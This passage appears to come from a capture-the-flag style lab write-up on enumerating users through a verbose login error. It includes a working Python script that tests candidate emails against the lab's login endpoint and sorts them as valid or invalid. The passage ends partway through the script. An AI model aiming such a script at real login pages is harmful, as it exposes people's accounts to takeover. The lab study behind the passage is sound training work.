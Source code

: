 ![image](https://github.com/user-attachments/assets/601232a0-6589-481c-b9e6-8784707081da)

However, if the email is already registered, the website will respond with an “Invalid Password” error message, indicating that the email exists in the database but the password is incorrect.

![image](https://github.com/user-attachments/assets/b2a41731-8f4c-43c5-9fa1-4f8353742a04)

◈ AUTOMATION

Below is a Python script that will check for valid emails in the target web app. Save the code below as script.py

"import requests
import sys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php'  # Location of the login function
    headers = {
        'Host': 'enum.thm',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://enum.thm',
        'Connection': 'close',
        'Referer': 'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username': email,
        'password': 'password',  # Use a random password as we are only checking the email
        'function': 'login'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.json()

def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist"  # Error message for invalid emails

    with open(email_file, 'r') as file:
        emails = file.readlines()

    for email in emails:
        email = email.strip()  # Remove any leading/trailing whitespace
        if email:
            response_json = check_email(email)
            if response_json['status'] == 'error' and invalid_error in response_json['message']:
                print(f"[INVALID] {email}")
            else:
                print(f"[VALID] {email}")
                valid_emails.append(email)
